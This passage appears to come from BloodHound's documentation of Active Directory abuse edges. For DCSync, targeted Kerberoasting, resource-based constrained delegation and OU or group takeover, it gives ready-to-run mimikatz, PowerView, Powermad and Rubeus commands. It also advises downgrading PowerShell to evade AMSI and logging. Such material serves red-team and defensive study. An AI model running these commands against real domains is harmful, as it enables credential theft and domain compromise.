As mentioned in the abuse info, in order to currently abuse this primitive the Rubeus C# assembly needs
to be executed on some system with the ability to send/receive traffic in the domain. See the References
for more information.

References
----------

* https://github.com/GhostPack/Rubeus#s4u
* https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/
* http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/
* https://twitter.com/gentilkiwi/status/806643377278173185
* https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more
* http://www.harmj0y.net/blog/redteaming/from-kekeo-to-rubeus/
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/

GetChanges/GetChangesAll
^^^^^^^^^^^^^^^^^^^^^^^^

The combination of both these privileges grants a principal the ability to perform the DCSync attack.

AbuseInfo
---------

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to
get the password hash of an arbitrary principal using mimikatz:
            
::

  lsadump::dcsync /domain:testlab.local /user:Administrator

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on
this see the blog post by harmj0y in the references tab.

Opsec Considerations
--------------------

For detailed information on detection of DCSync as well as opsec considerations, see the ADSecurity
post in the references section below.

References
----------

* https://adsecurity.org/?p=1729
* http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

GenericAll
^^^^^^^^^^

This is also known as full control. This privilege allows the trustee to manipulate the target object
however they wish.

AbuseInfo
---------

**With GenericAll Over a Group:**

Full control of a group allows you to directly modify group membership of the group. For full abuse
info in that scenario, see the AbuseInfo section under the AddMembers edge

**With GenericAll Over a User:**

**Targeted Kerberoast**
A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with
Get-DomainSPNTicket. 

You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Set-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)</code>

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

After running this, you can use Get-DomainSPNTicket as follows:
    
::

  Get-DomainSPNTicket -Credential $Cred harmj0y | fl

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName
can be done with the Set-DomainObject command:

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname

**Force Change Password**

You can also reset user passwords with full control over user objects. For full abuse info about this attack,
see the information under the ForceChangePassword edge

**With GenericAll Over a Computer**

Full control of a computer object is abusable when the computer’s local admin account credential is
controlled with LAPS. The clear-text password for the local administrator account is stored in an extended
attribute on the computer object called ms-Mcs-AdmPwd. With full control of the computer object, you may
have the ability to read this attribute, or grant yourself the ability to read the attribute by modifying
the computer object’s security descriptor.
    
Alternatively, Full control of a computer object can be used to perform a resource based constrained
delegation attack. 

Abusing this primitive is currently only possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can
be used to add a new attacker-controlled computer account:

::

  New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

::

  $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

We now need to build a generic ACE with the attacker-added computer SID as the pricipal, and get the
binary bytes for the new DACL/ACE:

::

  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity
field of the comptuer account we're taking over, again using PowerView in this case:

::

  Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

::

  Rubeus.exe hash /password:Summer2018!

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we
want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants
us access to the file system of the TARGETCOMPUTER:

::

  Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

**With GenericAll Over a Domain Object**

Full control of a domain object grants you both DS-Replication-Get-Changes as well as DS-Replication-Get-Changes-All
rights. The combination of these rights allows you to perform the dcsync attack using mimikatz. To grab the
credential of the user harmj0y using these rights:

::

  lsadump::dcsync /domain:testlab.local /user:harmj0y

See a video walk through of how to execute this attack here:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/RUbADHcBLKg?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

**With GenericAll Over a GPO**

With full control of a GPO, you may make modifications to that GPO which will then apply to the users and
computers affected by the GPO. Select the target object you wish to push an evil policy down to, then use
the gpedit GUI to modify the GPO, using an evil policy that allows item-level targeting, such as a new
immediate scheduled task. Then wait at least 2 hours for the group policy client to pick up and execute
the new evil policy. See the references tab for a more detailed write up on this abuse

**With GenericAll Over an OU**

With full control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()</code>

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: Add opsec considerations here

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://adsecurity.org/?p=1729
* http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/
* https://posts.specterops.io/a-red-teamers-guide-to-gpos-and-ous-f0d03976a31e
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

WriteDacl
^^^^^^^^^

With write access to the target object's DACL, you can grant yourself any privilege you want
on the object.

AbuseInfo
---------

With the ability to modify the DACL on the target object, you can grant yourself almost any
privilege against the object you wish.

**Groups**

With WriteDACL over a group, grant yourself the right to add members to the group:

::

  Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers

See the abuse info for AddMembers edge for more information about execution the attack from
there.

**Users**

With WriteDACL over a user, grant yourself full control of the user object:

::

  Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All

See the abuse info for ForceChangePassword and GenericAll over a user for more infromation
about how to continue from there.

**Computers**

With WriteDACL over a computer object, grant yourself full control of the computer
object:

::

  Add-DomainObjectAcl -TargetIdentity windows1 -Rights All

Then either read the LAPS password attribute for the computer or perform resource-based
constrained delegation against the target computer.

**Domains**

With WriteDACL against a domain object, grant yourself the ability to DCSync:

::

  Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync

Then perform the DCSync attack.

**GPOs**

With WriteDACL over a GPO, grant yourself full control of the GPO:

::

  Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All

Then edit the GPO to take over an object the GPO applies to.

**OUs**

With WriteDACL over an OU, grant yourself full control of the OU:

::

  Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All

Then add a new ACE to the OU that inherits down to child objects to take over
those child objects.

Opsec Considerations
--------------------

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI. You can bypass those security mechanisms by
downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.
            
Additional opsec considerations depend on the target object and how to take advantage of this
privilege.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount
* https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectorysecurityinheritance?view=netframework-4.8

GenericWrite
^^^^^^^^^^^^
Generic Write access grants you the ability to write to any non-protected attribute on the target
object, including "members" for a group, and "serviceprincipalnames" for a user

AbuseInfo
---------

**Users**

With GenericWrite over a user, perform a targeted kerberoasting attack. See the abuse section
under the GenericAll edge for more information

**Groups**

With GenericWrite over a group, add yourself or another principal you control to the group.
See the abuse info under the AddMembers edge for more information

**Computers**

With GenericWrite over a computer, perform resource-based constrained delegation against the
computer. See the GenericAll edge abuse info for more information about that attack.

Opsec Considerations
--------------------

This will depend on which type of object you are targetting and the attack you perform. See
the relevant edge for opsec considerations for the actual attack you perform.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

WriteOwner
^^^^^^^^^^

Object owners retain the ability to modify object security descriptors, regardless of
permissions on the object's DACL.

This clip shows an example of abusing this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

AbuseInfo
---------

To change the ownership of the object, you may use the Set-DomainObjectOwner function in
PowerView.

To abuse this privilege with PowerView's Set-DomainObjectOwner, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainObjectOwner, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObjectOwner, optionally specifying $Cred if you are not already
running a process as the user with this privilege:

::

  Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity harmj0y

Now, with ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

Owns
^^^^

Object owners retain the ability to modify object security descriptors, regardless of permissions
on the object's DACL

This clip shows an example of abusing object ownership:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

AbuseInfo
---------

With ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

Contains
^^^^^^^^

GPOs linked to a container apply to all objects that are contained by the container. Additionally,
ACEs set on a parent OU may inherit down to child objects.

AbuseInfo
---------

With control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()</code>

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: add opsec considerations

References
----------

* https://wald0.com/?p=179
* https://blog.cptjesus.com/posts/bloodhound15

AllExtendedRights
^^^^^^^^^^^^^^^^^

Extended rights are special rights granted on objects which allow reading of privileged
attributes, as well as performing special actions.

AbuseInfo
---------

**Users**

Having this privilege over a user grants the ability to reset the user's password. For
more information about that, see the ForceChangePassword edge section

**Groups**

This privilege grants the ability to modify group memberships. For more information on
that, see the AddMembers edge section

**Computers**

You may perform resource-based constrained delegation with this privilege over a computer
object. For more information about that, see the GenericAll edge section.

Opsec Considerations
--------------------

This will depend on the actual attack performed. See the particular opsec considerations
sections for the ForceChangePassword, AddMembers, and GenericAll edges for more info

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

GpLink
^^^^^^

A linked GPO applies its settings to objects in the linked container.

AbuseInfo
---------

This edge helps you understand which object a GPO applies to, and so the actual abuse
is actually being performed against the GPO this edge originates from. For more info
about that abuse, see the GenericAll edge section for when you have full control over
a GPO.

Opsec Considerations
--------------------

See the GenericAll edge section for opsec considerations

References
----------

https://wald0.com/?p=179

AllowedToAct
^^^^^^^^^^^^

An attacker can use this account to execute a modified S4U2self/S4U2proxy abuse chain to
impersonate any domain user to the target computer system and receive a valid service
ticket "as" this user.

One caveat is that impersonated users can not be in the "Protected Users" security group
or otherwise have delegation privileges revoked. Another caveat is that the principal
added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL *must* have a service pricipal
name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an
attacker does not currently control an account with a SPN set, an attacker can abuse the
default domain MachineAccountQuota settings to add a computer account that the attacker
controls via the Powermad project.

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

AbuseInfo
---------

Abusing this primitive is currently only possible through the Rubeus project.
            
To use this attack, the controlled account MUST have a service principal name set, along
with access to either the plaintext or the RC4_HMAC hash of the account.

If the plaintext password is available, you can hash it to the RC4_HMAC version using Rubeus:

::

  Rubeus.exe hash /password:Summer2018!

Use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to
"pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case
grants us access to the file system of the TARGETCOMPUTER:
    
::

  Rubeus.exe s4u /user:<trusted user> /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

Opsec Considerations
--------------------

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the
ability to send/receive traffic in the domain.

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

AddAllowedToAct
^^^^^^^^^^^^^^^

The ability to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property allows an attacker
to abuse resource-based constrained delegation to compromise the remote computer system. This
property is a binary DACL that controls what security principals can pretend to be any domain
user to the particular computer object.

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

AbuseInfo
---------

See the AllowedToAct edge section for abuse info

Opsec Considerations
--------------------

See the AllowedToAct edge section for opsec considerations

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

TrustedBy
^^^^^^^^^

.. todo:: Flesh out this section
